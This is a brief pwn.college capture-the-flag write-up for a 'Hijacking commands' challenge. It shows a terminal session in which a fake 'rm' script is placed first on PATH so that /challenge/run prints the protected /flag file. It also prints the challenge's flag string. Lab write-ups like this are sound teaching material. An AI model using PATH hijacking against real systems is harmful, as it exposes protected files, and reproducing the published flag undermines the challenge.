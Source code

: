 # Hijacking commands

Here like in the first task of this module `/challenge/run` will try and run the `rm` ,instead we can try and modify it to instead print the flag.

## My Solve

Flag : `pwn.college{Mzx1Kr4NRlRDOgiSRymmG4DvyTQ.QX3cjM1wCM0gjNzEzW}`

first we need to find the path of `cat` command and modify `rm` command to print /flag using cat command by the following method : 

```
hacker@path~hijacking-commands:~$ which cat
/run/dojo/bin/cat
hacker@path~hijacking-commands:~$ nano rm
hacker@path~hijacking-commands:~$ chmod a=rwx rm
hacker@path~hijacking-commands:~$ PATH=/home/hacker
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{Mzx1Kr4NRlRDOgiSRymmG4DvyTQ.QX3cjM1wCM0gjNzEzW}
hacker@path~hijacking-commands:~$ 
```
